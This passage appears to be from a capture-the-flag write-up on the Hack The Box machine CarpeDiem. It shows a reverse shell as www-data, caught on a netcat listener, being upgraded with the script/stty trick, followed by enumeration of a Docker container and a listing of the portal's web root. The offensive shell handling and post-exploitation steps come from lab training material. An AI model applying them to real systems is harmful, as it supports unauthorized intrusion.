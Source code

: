 I’ll upgrade the shell with the `script` / `stty` [trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

www-data@3c371615b7aa:/var/www/html/portal/uploads$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@3c371615b7aa:/var/www/html/portal/uploads$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@3c371615b7aa:/var/www/html/portal/uploads$ 

```

## Shell as hflaccus on CarpeDiem

### Host Enumeration

#### Docker

There’s not much on this host, and it’s clearly a Docker container:
- The hostname is random string and not CarpeDiem.
- There’s a `.dockerenv` file in the system root.
- Common commands like `ifconfig` and `ip` are missing.

#### General

The IP address can be found in `/proc/net/fib_trie` to be 172.17.0.6 (though it’s possible that the last octet will change on a reboot / reset of the box).

There are no user home directories in `/home`.

In `/var/www/html` there is a `portal` directory that has the application code for this web server. The `carpediem.htb` “Coming soon” site doesn’t seem to be present on this container.

#### Portal Site

Looking at the source for `portal.carpediem.htb`, in the root directory there’s a `config.php`:

```

www-data@3c371615b7aa:/var/www/html/portal$ ls
404.html          build             index.php       privacy_policy.html
about.html        classes           initialize.php  registration.php
about.php         config.php        libs            success_booking.php
admin             dist              login.php       uploads
assets            edit_account.php  logout.php      view_bike.php
bikes.php         home.php          my_account.php  view_categories.php
book_to_rent.php  inc               plugins  

```
